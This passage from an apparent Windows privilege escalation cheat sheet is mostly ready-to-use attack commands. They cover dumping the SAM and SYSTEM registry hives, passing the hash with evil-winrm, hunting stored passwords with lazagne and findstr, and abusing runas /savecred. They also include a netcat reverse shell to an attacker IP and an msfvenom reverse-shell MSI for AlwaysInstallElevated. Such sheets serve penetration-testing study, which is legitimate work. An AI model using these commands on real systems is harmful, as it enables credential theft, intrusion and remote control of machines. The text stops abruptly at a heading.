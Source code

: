 ```
reg save hklm\system c:\Temp\system  
File transfer them to kali  
pypykatz registry --sam sam system  

Passthehash using evil-winrm

evil-winrm -i ip -u user -H "hash"
```
Reference : https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

## Password Hunt 
```
lazagne.exe -all  
findstr /si password *.txt*.ini*.config (try searching in different directories)  

dir /s *pass* == *cred* == *vnc* == *.config*  

dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

where /R C:\user.txt  
where /R C:\*.ini  
reg query HKLM /f password /t REG_SZ /s  
reg query reg path
evil-winrm -u user -p pass -i ip
```

## STORED CREDENTIALS:

```
cmdkey /list
    
start listener
    
runas /savecred /user:admin C:\PrivEsc\reverse.exe (we get system shell here)
    
C:\Windows\System32\runas.exe /env /noprofile /user:<username><password>"c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e
cmd.exe"
```
    
## ALWAYS INSTALL ELEVATED
Look in Winpeas whether it is set to 1(0x1) for both HKLM, HKCU.

reg query pathname - to query the registry to check whether win installer has elevated priv if 0x1 then its enabled

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

FileTransfer
    